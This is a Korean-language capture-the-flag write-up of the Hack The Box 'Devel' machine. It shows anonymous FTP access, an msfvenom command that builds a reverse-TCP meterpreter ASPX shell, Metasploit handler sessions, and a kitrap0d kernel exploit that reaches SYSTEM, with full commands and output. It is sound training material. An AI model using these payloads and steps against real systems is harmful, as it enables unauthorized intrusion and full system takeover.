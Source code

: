 ```yaml
---
layout: post
title: "hack the box-devel"
featured-img: hack_the_box
category: Etc
summary: anonymous FTP, msfvenom, metasploit

---
```


# list 
---

- Service Enumeration
  + [ftp](#FTP) 
- metasploit
  + [msfvenom](#msfvenom)
  + [exploit_handler](#exploit_handler)
  + [exploit_local_exploit_suggester](#exploit_local_exploit_suggester)
  + [Privilege_Escalation](#Privilege_Escalation)

# 0. Intro

`devel` 문제는 취약하게 설정되어 있는 anonymous FTP를 통해 shell을 업로드하고 windows 취약점을 이용하여 Privilege Escalation 하는 방법으로 해결할 수 있습니다.

이번 포스팅에서는 ftp, msfvenom, metasploit를 이용한 공격을 정리하겠습니다.

<a name="FTP"/>

# 1. FTP
---

nmap을 이용하여 스캔한 결과는 다음과 같습니다. 

```no-highlight
# Nmap 7.70 scan initiated Mon Jun  3 00:26:04 2019 as: nmap -sC -sV -oA nmap-script 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.28s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

anonymous FTP는 계정을 가지고 있지 않은 사용자도 데이터에 접근할 수 있도록 FTP 서버가 설정 되어있는 것을 의미합니다.
ID는 anonymous, PW는 아무거나 입력 후 FTP에 접속할 수 있습니다.

<script id="asciicast-0BOKAfXz7mYilcvBpVUWpDLAK" 
        src="https://asciinema.org/a/0BOKAfXz7mYilcvBpVUWpDLAK.js" 
        async data-autoplay="true" data-size="small" >
</script>

<details>
<summary>terminal fold</summary>
<div markdown="1">

```console
root@kali:~/Desktop/htb/devel# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
</div>
</details>
<br>
anonymous 접근을 허용한 FTP 서버에 적절한 권한 설정을 하지 않는다면 FTP 업로드 기능을 이용하여 SHELL을 올리는 등 다양한 공격이 가능합니다.

### Referrence
[FTP 서버를 안전하게 관리하기 위한 보안 방안](https://www.boannews.com/media/view.asp?idx=39031)

<a name="msfvenom"/>
# 2. MsfVenom
---
Metasploit의 payload를 MsfVenom를 사용하여 별도의 파일으로 생성할 수 있습니다.<br>
Metasploit에서는 다양한 종류의 payloads, platforms, architecture, format을 지원하고 쉽게 payload를 생성할 수 있다는 장점이 있습니다.

MsfVenom을 이용하여 10.10.14.5:4444에 reverse connection을 수행하는 shell.aspx 파일을 생성하고, 취약하게 설정되어 있는 anonymous FTP에 업로드 합니다.

<script id="asciicast-2feAxBL7SYSPYxJf6DFBEdjRc" 
        src="https://asciinema.org/a/2feAxBL7SYSPYxJf6DFBEdjRc.js"
        async data-autoplay="true" data-size="small" >
</script>

<details>
<summary>terminal fold</summary>
<div markdown="1">

```console
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f aspx -o shell.aspx
```

</div>
</details>
<br>

# 3. metasploit
---

<a name="exploit_handler"/>

## 3.1 handler module
---
shell.aspx 실행시켰을 때 handler와 연결시킵니다.<br>
이때 생성되는 session을 이용해서 추가적인 공격을 진행할 수 있습니다.

<script id="asciicast-UsyVwKLVHf2q18Vt6gHtmJIdy" 
        src="https://asciinema.org/a/UsyVwKLVHf2q18Vt6gHtmJIdy.js" 
        async data-autoplay="true" data-size="small" >
</script>

<details>
<summary>terminal fold</summary>
<div markdown="1">

```console
root@kali:~/Desktop/htb/devel# msfconsole
[-] ***rting the Metasploit Framework console...\
[-] * WARNING: No database support: No database YAML file

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.14.5
LHOST => 10.10.14.5
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.5       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target

msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:4444
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.5:49158) at 2019-06-04 22:42:06 -0400

meterpreter > shell
Process 1580 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

</div>
</details>

<br>

위의 명령어 같이 세션을 연결하기 위해 핸들러를 다루는 일은 반복적으로 사용하게 됩니다.<br>
이런 명령어들은 다음과 같이 스크립트 형식으로 작성하여 실행시킬 수 있습니다.

```console
root@kali:~/Desktop/htb/devel# cat resource.rc
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
exploit -j -z
root@kali:~/Desktop/htb/devel# msfconsole -r resource.rc
[-] ***rting the Metasploit Framework console...\
[-] * WARNING: No database support: No database YAML file
...
```


<a name="exploit_local_exploit_suggester"/>

## 3.2 local exploit suggester module
---
local exploit suggester module은 대상서버의 architecture, platform 정보를 통해서 사용가능한 exploit을 나열해줍니다.
**3.1 handler module**을 통해 획득한 session을 연결시켜 공격을 진행할 수 있습니다.

<script id="asciicast-vkasZ1rW9W1vQzdCWczAwqIQS"
        src="https://asciinema.org/a/vkasZ1rW9W1vQzdCWczAwqIQS.js"
        async data-autoplay="true" data-size="small" >
</script>

<details>
<summary>terminal fold</summary>
<div markdown="1">

```console
msf5 exploit(multi/handler) > sessions -l

Active sessions
  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.5:4444 -> 10.10.10.5:49171 (10.10.10.5)


msf5 exploit(multi/handler) > back
msf5 > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > show options
       
Module options (post/multi/recon/local_exploit_suggester):
              
   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1                                                       
msf5 post(multi/recon/local_exploit_suggester) > run  

[*] 10.10.10.5 - Collecting local exploits for x86/windows...       
[*] 10.10.10.5 - 29 exploit checks are being tried...          
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
...
```
</div>
</details>
<br>

<a name="Privilege_Escalation"/>

## 3.3 Privilege Escalation
---
local_exploit_suggester를 사용하여 얻은 정보(**exploit/windows/local/ms10_015_kitrap0d**)를 이용하여 exploit을 진행합니다.

**ms10_015_kitrap0d** 취약점은 윈도우 커널 취약점으로 **CVE-2010-0232** 로 지정되어 있습니다.<br>
해당 취약점은 커널이 적절하게 예외처리를 하지 않아 발생하고, **공격에 성공하면 커널 모드에서 임의의 코드를 실행**할 수 있습니다. 
<script id="asciicast-Ay8VGouqxwWysygBL0YTg8sYX" 
        src="https://asciinema.org/a/Ay8VGouqxwWysygBL0YTg8sYX.js"        
        async data-autoplay="true" data-size="small" >
</script>

<details>
<summary>terminal fold</summary>
<div markdown="1">

```console
msf5 > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > show options                        
                                                  
Module options (exploit/windows/local/ms10_015_kitrap0d):  

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

Exploit target:
   Id  Name                                    
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)

msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 1
msf5 exploit(windows/local/ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

Exploit target:
   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)

msf5 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 192.168.87.138:4444
[*] Launching notepad to host the exploit...
[+] Process 1164 launched.
[*] Reflectively injecting the exploit DLL into 1164...
[*] Injecting exploit into 1164 ...
[*] Exploit injected. Injecting payload into 1164...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.

msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.5                                     
LHOST => 10.10.14.5                                                                                      
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 4445                                           
LPORT => 4445                                                                                            
msf5 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.5:4445
[*] Launching notepad to host the exploit...
[+] Process 2964 launched.
[*] Reflectively injecting the exploit DLL into 2964...
[*] Injecting exploit into 2964 ...
[*] Exploit injected. Injecting payload into 2964...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.5:4445 -> 10.10.10.5:49162) at 2019-06-05 02:51:09 -0400

meterpreter > shell
whoProcess 3232 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system
```

</div>
</details>
<br>

## Referrence
---
[IppSec Devel](https://www.youtube.com/watch?v=2LNyAbroZUk)


